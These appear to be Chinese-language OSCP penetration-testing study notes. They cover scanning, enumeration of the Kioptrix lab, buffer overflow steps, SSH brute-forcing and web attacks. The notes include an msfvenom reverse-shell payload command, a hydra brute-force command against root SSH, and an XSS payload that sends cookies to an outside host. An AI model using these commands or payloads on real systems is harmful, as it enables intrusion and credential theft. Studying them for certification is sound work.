 # OSCP笔记  

## 第一件事情：改root密码  
root@kali:/# passwd  


## 常用命令  
pwd, man, ls, cd, mkdir, rmdir, cp, mv, locate, adduser, su, sudo, echo, cat, vim, chmod, ifconfig, ping  


## 常用服务  
apache2, ssh, postgresql

kali> service apache2 start  
kali> systemctl enable apache2  


## 信息收集  
Google (inurl:cnn.com, filetype:pdf, intext, .etc)  
Exploit-DB / Google Hacking DB  
shodan  
WHOIS  
Netcraft  
theharvester  


## 扫描  
TCP vs UDP  

### Nmap  
> 选项：-vv详细，-Pn不论是否存活一律扫描，-A综合扫描，-sS SYN扫描，-sU UDP扫描，-T4扫描速度（1慢，5快），-p指定端口，-p-所有端口，-oN输出格式，--script使用脚本扫描  

kali> nmap -vv -sS -Pn -A -p 1-65535 -T4 -oN /root/tcpscan.txt 192.168.X.X/24              # TCP SYN扫描  
kali> nmap -vv -sU -Pn -A -top-ports 200 -T4 -oN /root/udpscan.txt 192.168.X.X/24          # UDP扫描  
kali> nmap -vv -p 137 --script=all 192.168.X.X                                    # 对137端口跑脚本  

### Nessus  
kali> dpkg -i <Nessus安装包\>.deb     # 安装  
kali> /etc/init.d/nessusd start     # 启动  

### Metasploit  
kali> msfconsole     # 启动msf  
msf> search portscan        # 查找模块  
msf> use auxilary/...       # 使用  
msf> show options           # 查看模块信息  
msf> set ports 1-65535      # 设置参数  
msf> set rhosts 192.168.15.2  
msf> set threads 10  
msf> exploit                # 开始  



## Kioptrix Level 1  

### SSH信息枚举（SSH版本）  
查看版本，然后去`searchsploit`或exploit-db找漏洞  

### HTTP信息枚举（Web Server版本，目录，文件等）  
1. 查看网页源码  
2. 查看HTTP通信流量  
3. 目录扫描（dirbuster, nikto，御剑）  

字典：github: dirbuster wordlist  

### SMB信息枚举（OS版本，SMB版本，$IPC等）  
kali> enum4linux  
msf> use auxiliary/scanner/smb/smb_version  
kali> nbtscan  
kali> smbclient  

### DNS枚举  
kali> host [-t [ns|mx]] zonetransfer.me  
kali> host -l <url> <ns>     # DNS Zone Transfer  
kali> dnsrecon  
kali> dnsenum  



## 栈溢出（Buffer Overflow）

        |--------|      |---------|    
        |  Text  |      |   ESP   |
        |--------|      |---------|
        |  Data  |      |  Buffer | 
        |--------|      |    ↓    |
        |  Heap  |      |         |
        |   ↓    |   /  |---------|
        |        |  /   |   EBP   |         
        |--------| /    |---------|
        |        |      |   EIP   |
        |   ↑    |      |---------|
        | Stack  |      |   arg2  |
        |--------| \    |---------|
        | Kernel |  \   |   arg1  |
        |--------|   \  |---------|

1. Fuzzing (and finding badchars)  
2. Finding the offset  
3. Overwriting the EIP  
4. exploit with shellcode generated by `msfvenom`  

生成shellcode  
kali> msfvenom -p windows/shell_reverse_tcp LHOST=X.X.X.X LPORT=4444 EXITFUNC=thread -f python/c/exe -a x86 --platform windows -e x86/shikata_ga_nai -x ... -o a.exe  

检查恶意程序的网站  
https://www.virustotal.com/  


### Client Side Attacks（客户端攻击）  

通过PDF、浏览器、Java Applet漏洞攻击，结合社工工具setools  




## Online Password Attacks  
  
> The last thing to try  
  
暴力破解SSH
kali> hydra -v -l root -P /usr/share/wordlists/rockyou.txt X.X.X.X ssh -t 4s  



## Web Attacks

### XSS
> 窃取cookie
```js
<script>location.href='http://192.168.1.100/index.php?test='+document.cookie;</script>
```


